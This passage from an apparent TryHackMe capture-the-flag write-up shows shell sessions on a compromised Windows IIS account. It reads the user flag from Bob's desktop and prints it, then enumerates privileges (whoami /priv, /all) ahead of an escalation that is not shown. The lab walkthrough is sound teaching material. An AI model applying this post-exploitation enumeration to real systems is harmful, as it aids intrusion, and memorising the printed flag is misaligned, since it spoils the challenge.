 
Now that we're in, we can try and get the user flag:
```shell-session
C:\> cd C:/Users/Bob/Desktop
C:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Bob\Desktop

07/25/2020  01:04 PM    <DIR>          .
07/25/2020  01:04 PM    <DIR>          ..
07/25/2020  07:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  21,037,912,064 bytes free

C:\Users\Bob\Desktop> type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

>  User Flag
> 
> Answer: `THM{fdk4ka34vk346ksxfr21tg789ktf45}` 


Now... we move onto privilege escalation:

## Privilege Escalation

Let's check some information before we proceed:
```shell-session
C:\Users\Bob\Desktop>whoami
whoami
iis apppool\defaultapppool

C:\Users\Bob\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Users\Bob\Desktop>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------
```